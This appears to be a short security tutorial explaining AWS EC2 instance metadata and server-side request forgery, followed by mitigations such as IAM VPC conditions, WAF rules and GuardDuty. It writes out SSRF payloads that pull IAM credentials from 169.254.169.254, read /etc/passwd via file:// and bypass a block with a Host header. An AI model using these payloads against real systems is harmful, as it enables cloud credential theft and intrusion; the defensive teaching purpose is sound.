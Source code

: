 # AWS metadata / IMDS

AWS EC2 has a feature called the Instance Metadata Service ([official documentation](
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)).
This enables any EC2 instance to access a REST API running on 169.254.169.254, which returns data about the
instance itself. Some examples include the instance name, the instance image (AMI) ID, and a bunch of other
interesting things.

Ref
- https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/
- https://www.youtube.com/channel/UCc5ZvM72SAxmjyQypnJVBpQ/live

## AWS metadata

You can access aws metadata inside your ec2 (hypervisor)

```
ec2-user> curl -s http://169.254.169.254/latest/meta-data

# E.g.
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/SSRFDEMO-ISRM-WAF-Role
```

## Server Side Request Forgery (SSRF)

SSRF is a vulnerability which allows an attacker to make web requests from the context of the server
 host machine to arbitrary URL's.

This vulnerability can allow the attacker to access resources internal to the network, which would otherwise
be inaccessible.

E.g. Run a curl command from a server.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"

curl -vv "https://example.com/viewimage/?url=file:///etc/passwd"

PHP:
curl_exec($ch);

Proxy:
curl "https://proxy.duckduckgo.com/iur/?f=1&image_host=http://169.254.169.254/latest/meta-data"

Proxy Config (nginx):
# Don't ever use setup a proxy like this!
server {
  listen 80 default_server;
  location / {
    proxy_pass http://$host;
  }
}
```

Example: see [test_ssrf.sh](test_ssrf.sh)


## Fix

```
1. Add a policy to the role to ensure all action must be from the vpc.

---
"Statement": [
  {
    "Action": "*",
    "Resource": "*",
    "Effect": "Deny",
    "Condition": {
      "StringNotEquals": {
        "aws:SourceVpc": [ "vpc-xxx-this-vpc" ]
      }
    }
  }
]
---
Cannot access s3 anymore.
But still can do -
`curl -s http://ssrfdemo.getserverless.com.au/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254';echo`

2. Set up WAF
a) go to WAF > Web ACLs
b) create/edit Web ACL (e.g. SSRF_Protection)
   - Rules > Edit web ACL
     - Rule: SSRFProectionRule
     - Action: Block
c) Details
Now curl won't work anymore.

3. GuardDuty
Reported "UnauthorizedAccess:IAMUser ... has been used from external IP address..."

4. Cloudtrail filter
($.errorCode="Client.UnauthorizedOperation")

5. Patch your applications and OS
6. Never trust user inputL use input validation checks
7. Blacklist the AWS metadata url
8. Create different AWS accounts to limit the blast radius
9. Use IP reputation blacklisting and other WAF rules
```

